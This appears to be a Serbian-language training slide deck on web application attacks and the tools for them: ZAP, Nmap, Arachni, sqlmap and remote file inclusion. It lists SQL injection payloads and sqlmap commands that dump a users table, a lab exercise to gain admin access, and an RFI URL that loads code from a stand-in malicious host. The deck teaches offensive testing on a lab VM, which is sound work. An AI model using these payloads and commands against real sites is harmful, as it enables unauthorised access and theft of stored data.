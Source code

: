 # ZAP
* Postoji već u Kali linuksu
* Scan policy manager
* Demo
---
# Nmap
* Postoji već u Kali linuksu
* nmap -p80 --script=http-sql-injection --script-args=httpspider.maxpagecount=200 target
	* -p = port number
	* --script = poziv skripte
	* --script-args = argumenti skripte
* Demo

---
# Arachni
* [arachni-scanner.com](http://www.arachni-scanner.com/)
* Demo
* arachni/bin/arachni_web
* localhost:9292
* Mail: admin@admin.admin Password: administrator
  

---
# Manuelna eksploatacija
* Select * from user where name = 'ROOT';
* 'OR'1'='1
* -1 UNION SELECT 1,2,3,4
* Demo: Primeri 1-4
---
# SQLmap

* sqlmap -u "http://example.com/page.php?id=1" --dbs
 * DBS = proveri bazu
* sqlmap -u "http://example.com/page.php?id=1" --tables -D website
* sqlmap -u "http://example.com/page.php?id=1" --columns -D website -t users
* sqlmap -u "http://example.com/page.php?id=1" --dump -D ime_tabele -t users
---
# Proba
* Pokrenite VM From Sqli to Shell
* Detektujte sqli uz pomoc nekog od prethodno navedenih alata
* Iskoristite sqlmap za eksploataciju sqli
* Ulogujte se kao admin
---
# RFI
### Remote File Inclusion
* Postoji mogućnost da se dodaju fajlovi na server
* Čest primer pozivanje skripte sa drugog sajta
 * Nije bas najbolje, uvek se moze naći vlasnik sajta sa koga je pozvana skripta
* Backdoor, Key logger, Bot 
* http://example.com/vuln_page.php?file=http://badsite.com/malicious
* Pronalaženje ZAP
---
